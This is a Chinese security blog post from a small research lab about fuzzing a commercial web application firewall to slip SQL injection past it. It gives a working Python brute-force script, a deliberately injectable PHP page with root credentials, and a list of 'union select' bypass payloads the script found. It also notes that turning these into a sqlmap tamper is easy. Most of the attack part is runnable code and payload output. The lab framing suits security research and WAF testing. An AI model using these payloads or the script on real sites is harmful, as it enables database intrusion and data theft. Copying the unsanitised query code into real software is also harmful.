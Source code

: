```yaml
---
date: "2017-06-02T00:00:00Z"
description: 本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。
title: Fuzz 测试 WAF
url: /archivers/2017-06-02/1
---
```

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。
<!--more-->
* 目录
{:toc}

## 0x00 前言
科拉实验室 是一个无名无实的信息安全实验室，此Git用于发布成员研究成果，技术交流而创。

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。

参考文献：http://www.cnblogs.com/perl6/p/7076524.html

环境如下：
* Windows 2008
* Apache
* PHP
* MySQL
* 某WAF 4.0


## 0x01 原理


每当WAF拦截一个请求，都会返回一个相同的提示页面，这个页面可以给予我们与正常请求页面不同的响应。

如：网页标题、网页内容、HTTP响应头、等等……

那么在WAF匹配攻击敏感点的时候它会查询一下自己的规则库（正则表达式），如果遇到匹配不到的请求（正常请求 or 攻击请求），都会自动放行。

首先要确立一个看似一定会被拦截的规则，然后在此规则上做FUZZ测试。

例如：`UNION SELECT XXX`

但是我们在UNION与SELECT之间可以做许多注释来进行测试，假设规则库（正则）中只能匹配到数字、大小写字母，那么就可以填充它预知不到的字符，该请求被发送出去，都将会被视为正常请求放行。

例如：`UNION/*%(-_/}%*/ SELECT`

当前状况下，`/**/`中的字符都不会被SQL解析。

## 0x02 机器实现对抗规则库

```python
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|','%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","%0j"]
 # 这里还可以填充更多的冷门字符
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.36 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.104/index.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                    exp = "/*!union/*"+a+b+c+d+"*/select*/ 1,2"
                    url = url_start + exp
                    res = requests.get(url = url , headers = headers)
                    #print(res.text.find("true"))
                    if res.text.find("true")==-1:
                        print("Find Fuzz bypass:"+url)
                        pass

```

服务器端代码：
```php
<?php
mysql_connect("127.0.0.1","root","root","test");
$id=!empty($_GET['id'])?$_GET['id']:1;
$SQL="SELECT * FROM test.test WHERE id = " . $id;
$result = mysql_fetch_assoc(mysql_query($SQL));
print_r($result);
```
数据库结构：

![数据库结构][1]


注意要将CC防护关闭，因为它会将短时间内请求数量过高的主机加入黑名单

## 0x03 Just Do it

![fuzz][2]

[1]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/00.png "数据库结构"
[2]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/11.png "FUZZ结果"

```
 Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0c*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0d*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0e*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0f*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0g*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0h*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0i*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0j*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/**/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i*/*/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/*!*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i**/select*/
 1,2
 ..................
 ```

 对抗结果如上
 
 
 利用如上Payloads写出响应的Tamper已经不是什么难事了。
 
 
## 0x04 未来

目前是机器PK死的规则库，当然是机器会胜利，那么未来是否会是机器对抗机器？
 
还会远吗？

----------

科拉实验室  service@cora-lab.org

